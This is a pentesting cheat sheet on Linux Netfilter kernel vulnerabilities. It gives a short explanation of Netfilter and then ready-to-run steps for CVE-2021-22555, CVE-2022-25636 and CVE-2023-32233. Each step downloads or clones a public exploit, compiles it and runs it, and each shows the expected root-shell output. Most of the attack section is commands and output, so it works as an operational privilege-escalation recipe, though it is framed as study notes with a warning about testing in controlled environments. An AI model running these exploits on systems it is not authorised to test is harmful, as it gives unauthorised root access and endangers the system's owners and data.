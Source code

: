 ```yaml
---
title: Netfilter vulnerabilities
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Netfilter vulnerabilities

## What is Netfilter?
Netfilter is a Linux kernel module that provides:
- Packet filtering
- Network address translation (NAT)
- Connection tracking
- Other firewall-related tools

It controls network traffic by manipulating individual packets based on rules. Programs like `iptables` and `arptables` serve as action mechanisms of Netfilter in the IPv4 and IPv6 protocol stack.

### Main Functions:
1. Packet defragmentation
2. Connection tracking
3. Network address translation (NAT)

## Exploiting Netfilter Vulnerabilities

### CVE-2021-22555
**Vulnerable Kernel Versions:** 2.6 - 5.11

#### Check Kernel Version

```sh
uname -r
```

**Example Output:**

```sh
5.10.5-051005-generic
```

#### Exploit Execution

```sh
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
gcc -m32 -static exploit.c -o exploit
./exploit
```

**Expected Output:**

```sh
[+] Linux Privilege Escalation by theflow@ - 2021
[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...
...
root@ubuntu:/home/cry0l1t3# id
uid=0(root) gid=0(root) groups=0(root)
```

---

### CVE-2022-25636

**Vulnerable Kernel Versions:** 5.4 - 5.6.10

⚠ **Warning:** This exploit may corrupt the kernel and require a reboot.

#### Check Kernel Version

```sh
uname -r
```

**Example Output:**

```sh
5.13.0-051300-generic
```

#### Exploit Execution

```sh
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```


**Expected Output:**

```sh
[*] STEP 1: Leak child and parent net_device
[+] parent net_device ptr: 0xffff991285dc0000
[+] child  net_device ptr: 0xffff99128e5a9000
...
[*] You've Got ROOT:-)
# id
uid=0(root) gid=0(root) groups=0(root)
```



---

### CVE-2023-32233

**Vulnerable Kernel Versions:** Up to 6.3.1

#### Exploit Execution

```sh
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```

**Expected Output:**

```sh
[*] Netfilter UAF exploit
[*] Checking for available CPUs...
...
[*] You've Got ROOT:-)
# id
uid=0(root) gid=0(root) groups=0(root)
```

⚠ **Note:** Exploiting this vulnerability allows interaction with the kernel's memory, potentially leading to root privileges.

## Final Notes
- These exploits can be highly **unstable** and may break your system.
- Always test in a **controlled environment**.
- Keeping your Linux system **updated** is crucial to mitigate such vulnerabilities.
